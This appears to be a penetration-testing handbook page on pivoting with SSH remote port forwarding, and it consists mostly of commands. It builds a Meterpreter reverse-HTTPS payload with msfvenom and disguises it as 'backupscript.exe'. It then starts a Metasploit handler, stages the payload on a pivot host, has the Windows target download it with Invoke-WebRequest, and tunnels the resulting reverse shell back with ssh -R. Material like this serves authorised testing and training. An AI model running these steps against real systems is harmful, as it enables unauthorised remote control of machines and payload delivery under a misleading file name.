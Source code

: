 ```yaml
---
title: "Remote/Reverse Port Forwarding with SSH"
type: handbook
weight: 2
---
```


![](Remote_port_forwarding.webp)

### Creating a Windows Payload with msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

### Configuring & Starting the multi/handler

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

### Transferring Payload to Pivot Host

```bash
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

### Starting Python3 Webserver on Pivot Host

```bash
python3 -m http.server 8123
```

### Downloading Payload on the Windows Target

```bash
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### Using SSH -R

```bash
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

![](successful_connection.webp)